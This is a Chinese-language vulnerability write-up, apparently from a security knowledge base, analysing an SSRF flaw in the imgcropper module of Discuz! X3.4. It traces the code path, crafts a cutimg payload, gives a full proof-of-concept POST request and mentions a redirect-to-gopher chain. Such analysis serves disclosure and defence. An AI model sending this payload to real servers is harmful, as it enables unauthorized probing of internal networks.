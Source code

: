 ```yaml
---
title: "Discuz x3.4 imgcropper ssrf"
id: zhfly2875
---
```


# Discuz! X3.4 imgcropper ssrf

## 一、漏洞简介

对 PHP、curl 版本都有特殊的要求，而且要服务端环境接受空 Host 的请求，总的来说比较鸡肋

## 二、漏洞影响

## 三、复现过程

`source/class/class_image.php` `image`类`init`方法：

```
 function init($method, $source, $target, $nosuffix = 0) {
        global $_G;

```
 $this-&gt;errorcode = 0;
    if(empty($source)) {
        return -2;
    }
    $parse = parse_url($source);
    if(isset($parse['host'])) {
        if(empty($target)) {
            return -2;
        }
        $data = dfsockopen($source);
        $this-&gt;tmpfile = $source = tempnam($_G['setting']['attachdir'].'./temp/', 'tmpimg_');
        if(!$data || $source === FALSE) {
            return -2;
        }
        file_put_contents($source, $data);
    }
    ...... 
``` `}` 
```

再找哪些地方调用了`image`类的`init`方法，发现`image`类的`Thumb`、`Cropper`、`Watermark`方法都调用了`init`。比如`Thumb`：

```
 function Thumb($source, $target, $thumbwidth, $thumbheight, $thumbtype = 1, $nosuffix = 0) {
        $return = $this->init('thumb', $source, $target, $nosuffix);
        ......
    } 
```

所以再找哪些地方调用了`image`类的`Thumb`方法，最终发现：

`source/module/misc/misc_imgcropper.php` 52-57行：

```
 require_once libfile('class/image');
    $image = new image();
    $prefix = $_GET['picflag'] == 2 ? $_G['setting']['ftp']['attachurl'] : $_G['setting']['attachurl'];
    if(!$image->Thumb($prefix.$_GET['cutimg'], $cropfile, $picwidth, $picheight)) {
        showmessage('imagepreview_errorcode_'.$image->errorcode, null, null, array('showdialog' => true, 'closetime' => true));
    } 
```

下断点调试发现 `$_G['setting']['ftp']['attachurl']` 的值为 `/`，而 `$_G['setting']['attachurl']` 的值是 `data/attachment/`。所以似乎 `$prefix` 为 `/` 才有 SSRF 利用的可能。

一开始构造 `cutimg=/10.0.1.1/get`，这样 `$url` 的值就为 `//10.0.1.1/get`，按道理来说这应该算是一个正常的 url，但是结果却请求失败了。

仔细跟进 `_dfsockopen` 发现，在 PHP 环境安装有 cURL 时，进入 curl 处理的代码分支，直到这里：

```
curl_setopt($ch, CURLOPT_URL, $scheme.'://'.($ip ? $ip : $host).($port ? ':'.$port : '').$path); 
```

`$scheme`、`$host`、`$port`、`$path` 都是 `parse_url` 解析 url 参数后的对应的值，而对像 `//10.0.1.1/get` 这样的 url 解析时，`$scheme` 的值是 `null`，因此最后拼接的结果是 `://10.0.1.1/get`，没有协议，curl 最后对这种url的请求会自动在前面加上 `HTTP://`，结果就变成了请求 `HTTP://://10.0.1.1/get`，这种 url 在我的环境中会导致 curl 报错。

所以我去掉了 curl 扩展，让 `_dfsockopen` 函数代码走 socket 发包的流程，踩了 `parse_url` 和 Dz 代码的一些坑点（这里就不展开了，有兴趣的同学调下代码就知道了），最后发现像这样构造可以成功：

```
cutimg=/:@localhost:9090/dz-imgcropper-ssrf 
```

poc:

```
POST /misc.php?mod=imgcropper&picflag=2&cutimg=/:@localhost:9090/dz-imgcropper-ssrf HTTP/1.1
Host: ubuntu-trusty.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:59.0) Gecko/20100101 Firefox/59.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Cookie: xkmD_2132_sid=E5sbVr; xkmD_2132_saltkey=m6Y8022s; xkmD_2132_lastvisit=1521612483; xkmD_2132_lastact=1521624907%09misc.php%09imgcropper; xkmD_2132_home_readfeed=1521616105; xkmD_2132_seccode=1.ecda87c571707d3f92; xkmD_2132_ulastactivity=a0f4A9CWpermv2t0GGOrf8%2BzCf6dZyAoQ3Sto7ORINqJeK4g3xcX; xkmD_2132_auth=40a4BIESn2PZVmGftNQ2%2BD1ImxpYr0HXke37YiChA2ruG6OryhLe0bUg53XKlioysCePIZGEO1jmlB1L4qbo; XG8F_2132_sid=fKyQMr; XG8F_2132_saltkey=U7lxxLwx; XG8F_2132_lastvisit=1521683793; XG8F_2132_lastact=1521699709%09index.php%09; XG8F_2132_ulastactivity=200fir8BflS1t8ODAa3R7YNsZTQ1k262ysLbc9wdHRzbPnMZ%2BOv7; XG8F_2132_auth=3711UP00sKWDx2Vo1DtO17C%2FvDfrelGOrwhtDmwu5vBjiXSHuPaFVJ%2FC%2BQi1mw4v4pJ66jx6otRFKfU03cBy; XG8F_2132_lip=172.16.99.1%2C1521688203; XG8F_2132_nofavfid=1; XG8F_2132_onlineusernum=3; XG8F_2132_sendmail=1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 36 `imgcroppersubmit=1&formhash=f8472648` 
```

此时 url 即为`//:@localhost:9090/dz-imgcropper-ssrf`。SSRF 请求成功：

![image](../img/7f5ad6a8ac44f19c7f64987c0f0c42f5.png)

通过这种方式进行构造利用的话，不太需要额外的限制条件（只要求服务端 PHP 环境没有安装 curl 扩展）￼，但是只能发 HTTP GET 请求，并且服务端不跟随跳转。漏洞危害有限。

后来 l3m0n 师傅也独立发现了这个漏洞，并且他发现较高版本的 curl 是可以成功请求 `HTTP://:/` 的，较高版本的 curl 会将这种 url 地址解析到 127.0.0.1 的 80 端口：

![image](../img/4925ce6fc80c478331a4ce07cb93dac2.png)

最后他再利用之前 PHP `parse_url` 的解析 bug（ [https://bugs.php.net/bug.php?id=73192](https://link.zhihu.com/?target=https%3A//bugs.php.net/bug.php%3Fid%3D73192) ），及利用 `parse_url` 和 curl 对 url 的解析差异，成功进行 302 跳转到任意恶意地址，最后再 302 跳转到 gopher 就做到发送任意数据包。详情可以参考 l3m0n 的博客：

[Discuz x3.4前台SSRF - l3m0n - 博客园](https://link.zhihu.com/?target=https%3A//www.cnblogs.com/iamstudy/articles/discuz_x34_ssrf_1.html)

但是这种利用方式对 PHP、curl 版本都有特殊的要求，而且要服务端环境接受空 Host 的请求。总的来说，imgcropper SSRF 仍然比较鸡肋。